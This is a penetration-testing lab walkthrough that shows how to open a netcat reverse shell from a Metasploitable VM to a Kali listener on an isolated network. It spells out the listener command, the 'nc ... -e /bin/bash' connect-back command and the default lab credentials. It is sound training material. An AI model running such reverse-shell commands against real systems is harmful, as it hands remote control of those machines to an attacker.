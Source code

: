 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use netcat to establish a reverse shell on a target machine.

**Lab Purpose:**

Netcat is a computer networking utility for reading from and writing to network connections using TCP or UDP.

**Lab Tool:**

Kali Linux VM and Metasploitable VM

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using netcat to create a reverse shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware or VirtualBox, the same as Kali Linux. You can download the metasploitable ISO file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

![Metasploitable](attachements/Metasploitable.png)

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Setting up a reverse shell with netcat is very straightforward. The way a reverse shell works is by creating a listener on our attack machine and getting the target to connect back to this listener.

First, let’s find out the eth0 IP address of our Kali machine and write it down. We will use this information on our Metasploitable VM. Open a terminal in your Kali machine and type these following commands:

sudo su –  
ifconfig  
nc -l -v -n -p 443

![netcat](attachements/netcat-2.png)

192.168.56.103 is the IP address of our Kali VM in this case.

The syntax for starting a listener on a attacker machine looks like the following:

nc -l -v -n -p 443

-l tells netcat that this will be a listener  
-v is used to show us a verberos output  
-n tells netcat not to use DNS or resolve host names  
-p tells netcat which port to listen on

### Task 3:

We will now switch to our target machine, which is Metasploitable VM. We can use a number of payloads to get this machine to connect back to our attack box, but, for now, we will simply be using netcat to demonstrate how this works. Open a terminal on the Metasploitable VM and type the following:

sudo nc 192.168.56.103 443 -e /bin/bash

You will then be asked for a password for sudo, the password by default is “msfadmin” without quotes.

![msfadmin](attachements/msfadmin.png)

You will now have a shell connecting your Kali machine through netcat to the target metasploitable machine. As you can see, you are now able to execute commands from your Kali machine on the Metasploitable VM.